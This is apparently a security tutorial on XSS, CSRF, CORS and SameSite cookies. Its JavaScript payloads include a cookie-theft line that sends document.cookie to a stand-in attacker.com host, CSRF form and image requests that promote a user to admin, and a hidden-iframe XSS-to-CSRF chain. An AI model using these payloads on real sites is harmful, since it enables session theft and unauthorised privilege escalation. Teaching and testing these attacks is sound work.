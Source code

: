 # XSS, CSRF, CORS, and SameSite Cookies: A Technical Overview for Security Testing and Exploitation

## 1. Cross-Site Scripting (XSS)

### Definition

XSS occurs when an attacker can inject malicious JavaScript into a webpage viewed by other users. This can be used to steal cookies, perform actions on behalf of a victim, or escalate access.

### Types

* **Stored XSS**: Injected script is saved server-side (e.g., in a comment or user profile).
* **Reflected XSS**: Payload appears in a URL or request and is reflected in the page.
* **DOM-based XSS**: JavaScript on the page dynamically processes attacker-controlled input.

### Common Exploit Payload

```javascript
window.location = 'https://attacker.com/steal?c=' + document.cookie;
```

## 2. Cross-Site Request Forgery (CSRF)

### Definition

CSRF occurs when a malicious site causes a user’s browser to perform an unwanted action on a different site where they are authenticated.

### Requirements for Exploitation

* Victim must be authenticated on the target site
* Session cookies must be automatically sent with the forged request
* The action must be triggerable without interaction (e.g., GET or auto-submitted POST)

### Example (GET CSRF via XSS)

```javascript
let img = new Image();
img.src = 'https://target-vhost.internal/profile.php?promote=admin';
```

### Example (POST CSRF via injected form)

```javascript
let form = document.createElement('form');
form.method = 'POST';
form.action = 'https://target-vhost.internal/profile.php';

let input = document.createElement('input');
input.type = 'hidden';
input.name = 'promote';
input.value = 'admin';
form.appendChild(input);

document.body.appendChild(form);
form.submit();
```

## 3. Cross-Origin Resource Sharing (CORS)

### Definition

CORS is a security mechanism that governs how web applications interact with resources from a different origin.

### CORS Headers

* `Access-Control-Allow-Origin`
* `Access-Control-Allow-Methods`
* `Access-Control-Allow-Headers`

### Relevance to Attackers

* **If CORS is misconfigured** (e.g., allows `*` or reflects origin without validation), attackers can read sensitive cross-origin responses.
* **Does not apply to CSRF**: CORS protects reading responses, not sending authenticated requests.

## 4. SameSite Cookies

### Definition

SameSite is a cookie attribute that controls whether cookies are sent with cross-site requests.

### Modes

* `SameSite=Strict`: Cookies not sent on any cross-site request.
* `SameSite=Lax`: Cookies sent on top-level navigations (e.g., `<a href>`), but not on background requests (`img`, `fetch`, `iframe`).
* `SameSite=None`: Cookies are sent with all requests **only if** the cookie is marked `Secure`.

### Relevance to Exploitation

* **CSRF fails if SameSite is Strict or Lax** and request is backgrounded (`img.src`, `fetch`) and not a top-level navigation.
* **XSS bypasses SameSite** because the malicious script runs in the same origin.

## 5. Attack Chain: XSS to CSRF

### Goal: Exploit XSS to trigger a privileged action via CSRF

#### Example Chain

1. Inject XSS payload into comment or profile page.
2. Wait for admin to view the page (stored XSS).
3. XSS payload auto-submits a form or triggers a GET request with the admin’s cookies.
4. Admin is unknowingly tricked into performing a privileged action (e.g., promoting a user).

### Example Full Payload

```javascript
let i = document.createElement('iframe');
i.src = 'https://target-vhost.internal/profile.php?promote=admin';
i.style.display = 'none';
document.body.appendChild(i);
```

---

## Summary Table

### Mechanism Overview

| Mechanism | Purpose                                       | Relevant To                             |
| --------- | --------------------------------------------- | --------------------------------------- |
| XSS       | Executes JavaScript in victim’s browser       | Stealing cookies, CSRF chaining         |
| CSRF      | Performs unwanted actions in victim’s session | Privilege escalation, changing settings |
| CORS      | Controls cross-origin resource reads          | Reading data from another origin        |
| SameSite  | Controls when cookies are sent                | Prevents CSRF if Strict or Lax          |

### Behavior Matrix

| Scenario                                | Will Cookies Be Sent? | Can Response Be Read? | Requires Same Origin? | XSS Impact | CSRF Feasible?            |
| --------------------------------------- | --------------------- | --------------------- | --------------------- | ---------- | ------------------------- |
| `img.src` with SameSite=Lax             | ❌                     | ❌                     | No                    | No         | ❌                         |
| `img.src` with SameSite=None            | ✅                     | ❌                     | No                    | No         | ✅                         |
| `fetch()` cross-origin + CORS misconfig | ✅                     | ✅                     | No                    | No         | ❌ (readable but not CSRF) |
| XSS on page                             | ✅                     | ✅                     | Yes                   | ✅          | ✅ (from XSS)              |
| Form POST from attacker.com             | Depends on SameSite   | ❌                     | No                    | No         | ✅ (if SameSite=None)      |

---

